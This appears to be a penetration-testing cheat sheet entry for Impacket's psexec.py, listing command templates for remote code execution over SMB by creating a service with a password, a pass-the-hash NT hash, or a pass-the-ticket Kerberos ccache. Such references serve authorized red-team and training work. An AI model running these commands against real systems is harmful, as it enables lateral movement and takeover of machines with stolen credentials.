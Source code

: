 # psexec (imp)

%  windows, impacket-exec, RemComSvc

## username
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service (using \pipe\svcctl via SMB)

```
psexec.py '<domain>'/'<user>':'<password>'@<ip>
```

## pth
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service (using \pipe\svcctl via SMB)

```
psexec.py -hashes :<nt_hash> <user>@<ip>
```

## ptt
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service (using \pipe\svcctl via SMB)

```
export KRB5CCNAME=<ccache>; psexec.py -dc-ip <dc_ip> -target-ip <ip> -no-pass -k <target_name>
```

